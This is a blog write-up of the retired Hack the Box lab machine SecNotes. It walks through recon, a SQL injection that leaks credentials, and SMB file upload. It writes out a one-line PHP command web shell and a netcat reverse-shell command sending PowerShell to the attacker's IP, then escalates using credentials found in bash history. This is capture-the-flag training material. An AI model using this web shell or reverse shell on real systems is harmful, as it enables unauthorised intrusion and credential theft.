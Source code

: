 +++
author = "Nick"
categories = ["CTF", "NetSec"]
date = 2019-01-22T17:03:09Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/01/info.PNG"
slug = "hack-the-box-secnotes"
summary = "Hack the Box - SecNotes machine. Lets get root!"
tags = ["CTF", "NetSec"]
title = "Hack the Box - SecNotes"

+++


Well, this will be my 11th write up for HtB, however, you aren't allowed to post a write up until a box has been retired. So I guess this is will actually be my first published write up on this site!

For those that are unfamiliar with what Hack the Box is, it's a simple capture the flag in digital space. In this case the flag is Administrative shell and credentials for users on the target machine. Let's dig in!

As always, we start by gathering info on our target with a basic nmap scan:

```bash
nmap -sC -sV -oA 10.10.10.97

That comes back with some basic things, we see port 80 and 445. We see that it's a Windows 10 machine running Enterprise build 17134. My guy reaction here is MS17-010 but that build might be too new to exploit. Lets check anyway.

```bash
ost script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2018-11-22T06:21:10-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-11-22 09:21:12
|_  start_date: N/A

There are a few ways to check this exploit but this time, we'll just use Metasploit since it has a MS17-010 scanner module. If you aren't familiar with where it is in Metasploit you can always use the search command to find it:

```bash
search ms17_010

![](/images/2019/01/ms17_check.PNG)

Now we load up the module and give it our target data:

```bash
use auxiliary/scanner/smb/smb_ms17_010

![](/images/2019/01/ms17_check2.PNG" caption="MS17-010 scanner hasn't found anything.)

It would appear the machine is not vulnerable. No biggy, we can run ms-17-010 against is if we think this data is false, but it usually isn't. Lets keep moving, we also saw port 80 open, lets browse to it and see what it is.

![](/images/2019/01/site.PNG" caption="Some type of login it seems)

Well, it seems to direct us to a login page of some type. So we try our usual, admin / admin. Admin with 1 space and amin with 2 spaces at the end. Sometimes this works due to lazy comparisons. Nothing, well, lets try and sign up for an account. We can sign up and get logged in. It's some type of note system.

![](/images/2019/01/pafge.PNG)

Lets create a note with some html.

![](/images/2019/01/note1.PNG)

Sure enough, we see the form isn't filtering any html:

![](/images/2019/01/note2.PNG" caption="potential xss?)

Well, that could be fun, lets check out the other pages and see what can be done. When we look at the change password page source, we notice there is not any CSRF tokens or protection of any type. Lets launch Burpe Suite and see what is being posted when we fill this field out.

![](/images/2019/01/burp1.PNG" caption="Well isn't that fun...)

So we can see that it's just passing in a password change via post. If we were to forward this page link to the site admin and they read it, we could passively change the password for the admin user. The question is how do we get the admin to read the link? (more on that later).

Well that could be our best way in, before we commit to that method, lets check for any php injections. Lets go back and create a user name of Love'"!@#$%^&*()[];<>. This should let us see if anything can be broken.

![](/images/2019/01/500.PNG" caption="What do we have here?)

Well, it looks like we can break this somehow. In this case I just removed the last set of special characters from our name until I found what seemed to be broken. So I used Love'"– - nothing, Love'!– - nothing, But then I got to Love';– - and that seemed to be the ticket. So do we craft an SQL injection statement? It was at this part I began to overthink the execution. So I just went back to basics with a injection method. ' OR '1'='1. Sure enough that gave be back some data in Burpe yet a error 500 on the web interface... odd. We had gotten back three notes, a recipe, some years and credentials.

![](/images/2019/01/html_cred.PNG" caption="Credentials for a user named tyler, awesome!)

So it seems our secure notes app wasn't so secure after all. It looks like they're going to spin up a new site, awesome. The notation above shows it's an SMB share something our nmap also gave us. Lets enumerate our shares on this machine and see what we get. We can enumerate SMB shares with a tool called SMBmap.

![](/images/2019/01/smbenum.PNG" caption="We give smbmap a username and password.)

Looks like we have the normal shares and our newly found new-site share. Lets connect using smbclient.

![](/images/2019/01/smb_dir_muchbetter.PNG" caption="We give smbclient a target and a user, we are then prompted for a password.&nbsp;)

When we list the directories we see the standard IIS html and png. We can't seem to path up either. We have write access, lets try to put a file on the directory. Sure enough we can upload a file to the share. So how to we get to that site? It wasn't found at /new-site or any other iteration of that. It's not uncommon for devs to create test site locally on other ports. Lets try to scan all the ports and see what comes back.

![](/images/2019/01/nmap2.PNG)

Looks like we have something running on 8808, lets browse to it. Looks like the basic IIS start page, awesome. Lets create a basic html file and upload it and see if we can access that.

![](/images/2019/01/put.PNG)

![](/images/2019/01/test1.PNG)

Looks like it worked! Now, based on our previous nmap scans, we know that the site is running PHP. A common method of attack here is to create a PHP script to upload a vector of attack and have the IIS system run that file. So this is exactly what we'll do. The first time I ran through this attack, I was using a reverse Meterpeter payload but that seemed to keep dropping connection after ~30 seconds or so. Since that wasn't working out I decided to try the old standby of Netcat.

The first thing we need to do is download Netcat. Then we'll upload it to our new-site share. Once we've done that we'll write a quick and dirty php file to execute the commands we issue it.

![](/images/2019/01/nc64.PNG" caption="We connect via smbclient again and issue a put command.)

Now that our file is there, lets write a quick PHP one liner. PHP has a function called [passthru](https://secure.php.net/manual/en/function.passthru.php)(). This allow us to execute a command on the system. At first I wrote this with the exec() function in PHP but it didn't seem to like the arguments I was feeding it, probably has something to do with the lack of PHP knowledge I have. We create a new file called loveshell.php. In this file we will write the following:

```php
<?php passthrue($_REQUEST["run"]);?>

When we call this webpage, we can then feed it commands like this:

http://10.10.10.97/new-site/loveshell.php?run=dir

In the case above, the server will execute the 'dir' command and give us the results on the page.

![](/images/2019/01/result.PNG)

So lets upload our file to the server using smbclient again. Now before we execute anything, we need to start our Netcat listener on our machine.

![](/images/2019/01/nclisten.PNG" caption="We use the -n for ip only, the -v for verbose, the -l for listen for inbound only and the -p for our port)

Now that we're listening, lets feed our php shell a netcat command. We want netcat to start a powershell session and forward it to us. To do that we issue the following:

```bash
nc64.exe 10.10.13.37 9909 -e powershell

This create a powershell session and forwards it to our machine on port 9909. Previously I had created the session with CMD prompt but that was lacking in features. So lets drop this into our URL bar and see what we get!

![](/images/2019/01/urlsend.PNG)

![](/images/2019/01/reverse_powershell.PNG)

Once we issue the command we see our Netcat listener light up and become active! We now have a Powershell prompt. Lets go get our user credentials! We path to the desktop and sure enough, they are here. A quick more user.txt gives us what we are looking for.

![](/images/2019/01/user.PNG)

Now how do we escalate our privileges? There are a few ways of doing this but I feel like I took that path that was blatantly right in front of me. As we traversed the directories to get to Tyler's desktop we noticed a few things. The first being a directory for Distros listed under the C drive. When we path down it, we notice that there is a Ubuntu directory with Ubuntu.exe. So whats interesting about this is that this file is meant to run Ubuntu within Windows. Very much like the windows bash sub-features. Along side this on Tyler's Desktop there was a shortcut named bash.lnk. When we look at the content of that shortcut we see it's pointing to a bash.exe in System32.

![](/images/2019/01/bash.PNG" caption="bash.exe in System32? What could this be?)

Since that shortcut is linked to the System32, we should be able to call it from our powershell command prompt.

![](/images/2019/01/bash1.PNG)

Sure enough, we can. So who are we in this bash shell? Turns out we're root. Maybe we can path to Administrator now and get credentials!

![](/images/2019/01/whoami.PNG)

So we path to /mnt/c/users/Administrator and see what we can see.

![](/images/2019/01/admin1.PNG" caption="Denied!)

Nothing, we still don't seem to actually have root privileges. So lets go back to our starting point and see whats there. When we list the content of our home directory we see a directory called 'filesystem'. More importantly we see .bash_history, usually this has some breadcrumbs we can follow.

![](/images/2019/01/listing.PNG)

We list the contents of 'filesystem' but there seems to be nothing there. Lets check the contents of the .bash_history. When we do we see some admin credentials. Awesome, lets use those credentials to connect back to the system via SMB!

![](/images/2019/01/cat_bash.PNG" caption="The % after the administrator is the delimiter for the smbclient tool.)

Once again we open our smbclient and connect as administrator using the above credentials. Once we're in, we simply path to the Desktop and view our root.txt.

![](/images/2019/01/root.PNG)

There we have it. Another box down. It should be noted there are other ways to own this box. The above is just the path that I followed as I'm much more familiar with infrastructure access and pathways vs web access.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

